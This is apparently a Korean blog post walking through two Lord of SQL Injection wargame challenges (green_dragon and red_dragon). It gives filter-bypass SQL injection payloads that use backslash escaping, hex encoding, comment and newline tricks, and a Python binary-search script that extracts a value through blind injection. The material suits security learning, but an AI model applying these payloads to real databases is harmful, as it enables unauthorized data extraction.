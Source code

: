 ```yaml
---
title: "[LOS] 25,26번 문제 풀이(green_dragon,red_dragon)"
categories:
  - los
tags:
  - los
  - rubiya
  - los 25번
  - los 26번
  - los green_dragon
  - los red_dragon
  
toc: true
toc_sticky: true
toc_label: "25,26번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/sql.png
---
```


💡 los.rubiya.kr 25번,26번 문제에 대한 풀이입니다. 
{: .notice--warning}


# 25번(green_dragon)
## 문제
![image](https://user-images.githubusercontent.com/33647663/159745329-5577e1f1-a565-4af9-83c1-c8c80515bf51.png)

## 풀이
우선 필터링 된 문자들 중에 세미콜론(')이 있습니다. 세미콜론이 필터링 상황에서 문자열을 이스케이핑 하기 위해서 이스케이프 문자인(\\)을 사용해 줍니다.

id = \\ 을 입력하면 다음과 같이 pw부분까지 문자열로 처리되어서 pw부분에 바로 db명령어 수행이 가능합니다.

```sql
select id,pw from prob_green_dragon where id='\' and pw=' or 1#'
```

![image](https://user-images.githubusercontent.com/33647663/159746105-26a60e43-ec2b-444d-9b27-e5588dfe4f36.png)

정상적으로 쿼리가 실행되었다면, ```if(result['id'])```가 참이되어 두번째 쿼리의 결과가 나왔어야 하지만, 아무런 결과가 나오지 않고 있습니다. 

DB에 아무런 데이터가 없을 것으로 추측하여 union select를 해봅니다.

![image](https://user-images.githubusercontent.com/33647663/159746406-784a39e7-d6f7-42d0-af58-1fc1e8a42aec.png)

예상대로 DB에는 아무런 데이터가 없었고, union select 1,2를 하여 result['id'] = 1, result['pw'] = 2 가 들어가서 query 2번이 실행되었습니다.

이번에도 동일한 로직으로 id=\\을 넣어주고, pw에 어떠한 값을 넣어줘서 쿼리의 결과 값이 'admin'이 나오면 문제가 풀립니다.

테이블에는 데이터가 없기 때문에 query1의 결과로 나온 id,pw가 다음과 같이 출력되어야 query2에서도 union select로 인해서 'admin'의 결과가 나옵니다.

```
id = \
pw = union select 'admin'#
```

우선 id에 들어가는 ```\```표시는 0x5c로 바꿔주고, 세미콜론(')을 필터링 하고 있기 때문에 pw에 들어가는 값을 0x 형식으로 표현하여 우회해 줍니다.
```union select 'admin'#```을 전부 16진수로 바꿔서 표현하는 코드는 다음과 같습니다.

```python
test = " union select 0x61646d696e#"
for character in test:
    print(str(hex(ord(character)))[2:],end='')

# 20756e696f6e2073656c6563742030783631363436643639366523
```

이제 이 결과 값을 이용해서 다음과 같이 전체 쿼리문을 작성해 줍니다.

```
id = \
pw = union select 0x5c,0x20756e696f6e2073656c6563742030783631363436643639366523

```

![image](https://user-images.githubusercontent.com/33647663/159748486-8c10e0c8-873e-499c-a7bd-edee510473e2.png)

# 26번(red_dragon)
## 문제

![image](https://user-images.githubusercontent.com/33647663/159748785-9b67c3b7-cd40-4aff-8682-6339c423b9f3.png)

## 풀이
우선 id에 ```'=0;%00```을 넣어서 true일 때 어떤 값이 반환되는지 봅니다.

![image](https://user-images.githubusercontent.com/33647663/159749259-c13e039d-abfe-46d3-8e1c-ae7f112f83a7.png)

테이블에 admin 데이터가 출력됩니다. 

문제의 클리어 조건은 다음과 같으며 admin의 no 값을 알아내야 합니다.

```php
$query = "select no from prob_red_dragon where id='admin'";
$result = @mysqli_fetch_array(mysqli_query($db,$query));
if($result['no'] === $_GET['no']) solve("red_dragon");
```

no 값에 들어가는 검증을 **is_numeric** 함수가 하고 있습니다. 이때, is_numeric은 오류를 줄이기 위해서 맨 앞자리에 공백문자가 온다면 이를 그대로 처리해줍니다.

![image](https://user-images.githubusercontent.com/33647663/159749943-dc1ba1fe-27aa-4ff8-ad99-8a3290bcc7a0.png)

그렇다면 id 부분에서 한줄 주석 처리를 통해서 전부 주석 처리를 하고, no 부분에 %0a123과 같이 입력한다면, 한줄 주석 이후까지의 명령어에 이어서 숫자를 사용할 수 있습니다.

다음과 같이 작성해 줍니다.
```
id='||no>#
```

![image](https://user-images.githubusercontent.com/33647663/159750285-7b5aa2af-5e5b-4ad3-bcc7-601a0aee679d.png)

위의 쿼리문은 #부분부터 주석이 처리가 되고, 줄 바꿈 문자를 만난다음엔 주석 처리가 되지 않기 때문에 아래와 동일한 쿼리문입니다.

```sql
select id from prob_red_dragon where id=''||no>1000
```

즉 id의 no>1000과 같이 대소 비교가 가능해 집니다. 이를 이용하여 코드를 통해서 반복처리를 해줍니다. 

```python
import requests

url = "https://los.rubiya.kr/chall/red_dragon_b787de2bfe6bc3454e2391c4e7bb5de8.php?id=%27||no<%23&no=%0a"
url2 = "https://los.rubiya.kr/chall/red_dragon_b787de2bfe6bc3454e2391c4e7bb5de8.php?id=%27||no=%23&no=%0a"
cookies = {"PHPSESSID" : "595dl7ejl1io50mt9bhg0dbmpk"} 

start,end = 100000000,1000000000
while True:
    search = int((start + end)/2)
    response = requests.get(url + str(search),cookies=cookies)
    if("Hello admin" in response.text):
        end = search
    else:
        response = requests.get(url2 + str(search),cookies=cookies)
        if("Hello admin" in response.text):
            print("find the no",search)
            break
        start = search
    print(search)

```

숫자가 크기 때문에 이진 탐색 알고리즘을 사용했습니다.
결과는 다음과 같습니다.
```
550000000
775000000
662500000
606250000
578125000
592187500
585156250
588671875
586914062
586035156
586474609
586694335
586584472
586483191
586482333
586481904
586482118
586482011
586482064
586482037
586482024
586482017
find the no 586482014
```


![image](https://user-images.githubusercontent.com/33647663/159750859-00e954c5-8737-4a19-a220-c86a11de7f51.png)